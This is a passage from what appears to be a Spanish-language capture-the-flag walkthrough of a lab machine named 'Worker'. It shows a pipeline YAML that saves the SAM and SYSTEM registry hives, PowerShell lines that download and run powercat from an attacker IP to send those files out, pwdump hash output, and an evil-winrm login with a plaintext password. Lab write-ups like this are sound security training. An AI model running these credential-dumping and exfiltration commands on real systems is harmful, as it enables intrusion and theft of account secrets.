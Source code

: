```yml
trigger:
- master

pool: 'Setup'

steps:
#Guardamos registros en archivos:
- script: reg save HKLM\SAM c:\Windows\Temp\sam
- script: reg save HKLM\SYSTEM c:\Windows\Temp\system

#Los transferimos a nuestra maquina: (Levantamos un servidor con python y nos ponemos en escucha por dos puertos [nc -lvp 4435 > sam])
#Buscando y preguntando encontre esta linda herramienta (powercat):
- script: powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.202:8000/powercat.ps1');powercat -c 10.10.14.202 -p 4435 -i c:\Windows\Temp\sam"
- script: powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.202:8000/powercat.ps1');powercat -c 10.10.14.202 -p 4436 -i c:\Windows\Temp\system"

#Tuvimos que ejecutar cada powercat en un pipeline diferente, el timeout no dejaba pasar de uno a otro.
```

Con los archivos en nuestra maquina hacemos:

```bash
–» pwdump sam system
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
aaralf:1019:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
abrall:1020:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
aceals:1021:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

Todos son iguales (?) (:

...

En este punto no sabría como obtener una Shell como el usuario `nt autority\system`.

Probemos a crear un usuario y lo asignamos al grupo administradores mediante la web. (Tambien podemos entrar a la máquina mediante el puerto WinRM (5895) con el usuario `robisl`).

```bash
–» evil-winrm -i 10.10.10.203 -u 'robisl' -p 'wolves11' 

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> whoami;hostname
worker\robisl
Worker
```

